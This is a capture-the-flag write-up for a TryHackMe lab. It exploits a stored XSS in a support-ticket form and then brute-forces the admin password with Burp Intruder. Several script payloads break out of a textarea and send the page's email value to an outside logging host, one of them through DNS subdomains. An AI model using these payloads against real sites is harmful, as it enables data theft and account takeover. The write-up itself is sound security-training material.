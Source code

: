 # That's The Ticket

## Introduction:

Welcome to my another writeup! In this TryHackMe [That's The Ticket](https://tryhackme.com/room/thatstheticket) room, you'll learn: Stored XSS, or Cross-Site Scripting! Without further ado, let's dive in.

## Background

> IT Support are going to have a bad day, can you get into the admin account?

> Difficulty: Medium

```
IT Support is going to have a really bad day today, but don't think they're stupid! They have really strict firewalls!

Using the IT support portal try and make your way into the admin account.

Hint: Our HTTP & DNS Logging tool on http://10.10.10.100 may come in useful! 
```

- Overall difficulty for me: Easy

# Task 1 - Lab Informaion

- Question 1: What is IT Supports email address?

As usual, scan the machine for open ports via `rustscan`!

**Rustscan:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/That's-The-Ticket]
└─# export RHOSTS=10.10.213.250
                                                                                                           
┌──(root🌸siunam)-[~/ctf/thm/ctf/That's-The-Ticket]
└─# rustscan --ulimit 5000 -t 2000 --range=1-65535 $RHOSTS -- -sC -sV -oN rustscan/rustscan.txt
[...]
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bf:c3:9c:99:2c:c4:e2:d9:20:33:d1:3c:dc:01:48:d2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8dfacBZcXm48CzKZh1Vd6tO6p86sR7PyBbxJj9q9Zifzlq+GmD+r1eXLaH+waOWnD/fmPr8CtScSVP0iu0opnIZ21A4Zy/SOjNKVuDWGWP36cj/XxiTlLL3qfOk0OXy/xVEYycYWhiJm1VLhOSg5Tk3xGGJRBY9V1MfBF/Oq2DdEcODzUnh/JLikJctZ15DwGTaY+6ehl6Kh1PwRQ6XZmhLP42P9NtPCY8AkXCO2EJrE/tzckhUzi4vr17Z0M4zZd8AZX1SfX3t5hULhKMDbQ7zRQNTIeaLYdPBa4Yu3Ze2annUvOlKhnTKm+omW7vbXKWurIWRqyG59F12sNHl3P
|   256 08:20:c2:73:c7:c5:d7:a7:ef:02:09:11:fc:85:a8:e2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO1cxZc0WJgiYCd7m7sxzMYbgVLjqIc40ZZi4Y+M+YHJeISCq1bhTMLSpIWHxwpnQg+qVD3wrgYWI9Hr6FGGMrg=
|   256 1f:51:68:2b:5e:99:57:4c:b7:40:15:05:74:d0:0d:9b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFCYrvmQ5DCiI8ZbvzVWWIkj1apQr36j4vJ8K8MfUCKz
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
|_http-title: Ticket Manager > Home
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

According to `rustscan` result, we have 2 ports are opened:

Ports Open        | Service
------------------|------------------------
22                | OpenSSH 7.6p1 Ubuntu
80	              | nginx 1.14.0 (Ubuntu)

## HTTP on Port 80

**In the home page, we can see that we're able to login or register an account:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a1.png)

**`/login`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a2.png)

In the login page, I tried to authentication bypass with SQL injection, but no dice.

**Then I guess we'll have to register an account in `/register`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a3.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a4.png)

After we registered an account, we can create a ticket. I'll create a ticket for testing purposes:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a5.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a6.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a7.png)

I also tried the IDOR, or Insecure Direct Object Reference, but when I reach `/1`, it redirects me to the home page.

Now, **why not test the message box is vulnerable to XSS, or Cross-Site Scripting?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a8.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a9.png)

The `alert(1)` is not working?

After inspecting the message box, I found that **this is a `textarea` in HTML**:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a10.png)

**To bypass `textarea`, we can just simply close that tag by adding `</textarea>` before our XSS payload:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a11.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a12.png)

Yes!!! We trigged the XSS vulnerability, and it's a stored XSS!

**Now, we can create an iframe XSS payload!**

> Note: You can create HTTP & DNS Logging tool in [TryHackMe Request Catcher](http://10.10.10.100).

**payload:**
```html
</textarea><iframe src="http://cab5af170585946566f5fc8d2578fdd1.log.tryhackme.tech/">
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a13.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a14.png)

Confirmed that we have a call back.

**Now we need admin's email in question 1**

After logged in, the top-right hand corner has **a `<span>` tag, which contains the `email` id**:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a15.png)

We can leverage the XSS vulnerability to capture admin's email via the follow payload! (From a [GitHub repository](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md) and a [StackOverflow post](https://stackoverflow.com/questions/13341095/how-to-get-the-value-of-id-of-innerhtml).) 

```html
</textarea><script>var i=new Image;i.src="http://cab5af170585946566f5fc8d2578fdd1.log.tryhackme.tech/?"+document.getElementById('email').innerHTML;</script>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a16.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a17.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a18.png)

> Note: Some DNS requests are the admin user. 

Successfully capture our email, let's capture the admin's email!

**Since URL encoding will break special characters like `@` and `.`, we need to escape them:**
```html
</textarea><script>
var i = document.getElementById('email').innerText;
i = i.replace('@', 'at')
i = i.replace('.', 'dot')
document.location = 'http://' + i + '.cab5af170585946566f5fc8d2578fdd1.log.tryhackme.tech/';
</script>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a19.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a20.png)

**In one of those DNS requests, we can see that there is an email for user `admin`!!**

- Question 2: Admin users password

Armed with admin's email, **we can bruteforce his password via Burp Suite Intruder!**

**To do so, I'll:**

- Intercept the POST request in `/login` via Burp Suite:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a21.png)

- Send the intercepted request to `Intruder`: (`Ctrl + i`)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a22.png)

- Clear all positions via `Clear` button:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a23.png)

- Highlight the password, and add position to it via `Add` button:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a24.png)

- Load a password wordlist payload in `Payloads` tab:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a25.png)

- After loaded the wordlist, click `Start Attack`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a26.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a27.png)

**Found the password!**

- Question 3: Flag inside Ticket 1

**Let's login to the admin user!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a28.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a29.png)

We're in!

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a30.png)

# Conclusion

What we've learned:

1. Stored XSS (Cross-Site Scripting)
2. Password Bruteforcing in HTTP POST Form